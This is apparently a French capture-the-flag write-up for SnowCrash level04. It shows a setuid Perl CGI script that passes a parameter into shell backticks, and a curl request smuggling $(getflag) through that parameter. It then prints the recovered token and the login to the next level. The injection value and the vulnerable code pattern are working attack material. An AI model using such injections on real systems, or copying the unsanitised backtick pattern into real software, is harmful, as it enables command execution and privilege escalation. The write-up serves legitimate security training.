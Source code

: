 # README - Exploitation de l'injection de commande dans level04.pl

## Étapes suivies pour obtenir le Flag04

### 1. Identification du script

Le fichier `level04.pl` est un script Perl avec les permissions **setuid** et **setgid**, ce qui signifie qu'il s'exécute avec les privilèges de l'utilisateur `flag04` :

```bash
level04@SnowCrash:~$ ls -l
-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl
```

### 2. Analyse du script Perl

En inspectant le contenu de `level04.pl`, on remarque une vulnérabilité d'injection de commande :

```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

Le paramètre `x` est injecté directement dans une commande `echo` via un appel backtick `` ` ``, ce qui permet d'exécuter des commandes arbitraires.

### 3. Exploitation via injection de commande

Nous pouvons injecter la commande `getflag` via une requête HTTP. Le serveur fonctionne sur `localhost:4747`.

#### a. Utilisation de curl pour envoyer la requête

```bash
curl "http://localhost:4747/?x=%24(getflag)"
```

**Explication** :
- `%24` correspond à `$` en encodage URL.
- La commande injectée est `getflag`, qui sera interprétée par le shell.

### 4. Récupération du flag

Si l'injection réussit, la sortie de `getflag` affichera le flag :

```bash
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

### 5. Passage à l'utilisateur suivant

Utilisez le flag pour vous connecter à l'utilisateur `level05` :

```bash
level04@SnowCrash:~$ su level05
Password: ne2searoevaevoem4ov4ar8ap
level05@SnowCrash:~$ 
```
